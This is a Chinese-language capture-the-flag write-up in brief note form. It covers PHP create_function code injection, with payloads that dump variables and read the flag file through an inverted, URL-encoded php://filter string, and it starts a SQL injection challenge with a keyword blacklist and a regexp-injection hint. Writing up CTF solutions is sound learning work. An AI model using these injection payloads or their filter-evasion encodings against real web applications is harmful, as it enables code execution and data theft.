 
flag[code]=create_function     
%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E
flag[arg]=;}a();//   
%66%6C%61%67%5B%61%72%67%5D=    

`get_defined_vars()`函数会以数组形式返回所有变量和值        
`flag[code]=create_function&flag[arg]=;}var_dump(get_defined_vars());//`


![02.png](https://img11.360buyimg.com/ddimg/jfs/t1/163461/36/20309/34836/6082eb4cE5ed6382e/e08bdbff0aa587d8.png)      


   
`require`读取文件      
`flag[arg]=;}require(base64_decode(cmVhMWZsNGcucGhw));var_dump(get_defined_vars());//`   

 
![03.png](https://img13.360buyimg.com/ddimg/jfs/t1/183003/35/675/45335/6082ec64E4b186153/4b8afb83d9a49b77.png)     


这个是假的     
要用伪协议，URL取反    

`;}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//`    


  
![04.png](https://img12.360buyimg.com/ddimg/jfs/t1/173695/38/6129/110660/6082ef53Eed0617a1/19b0d876457d7346.png)       





[MORE](https://www.gem-love.com/ctf/770.html)       


### SQLi   

   

![01.png](https://s.pc.qq.com/tousu/img/20210422/8769310_1619090005.jpg)      




`robots.txt`     

	User-agent: *
	Disallow: /hint.txt      

`hint.txt`      

	$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";
	
	
	If $_POST['passwd'] === admin's password,
	
	Then you will get the flag;     

regexp正则注入         
`regexp`函数，匹配字符      
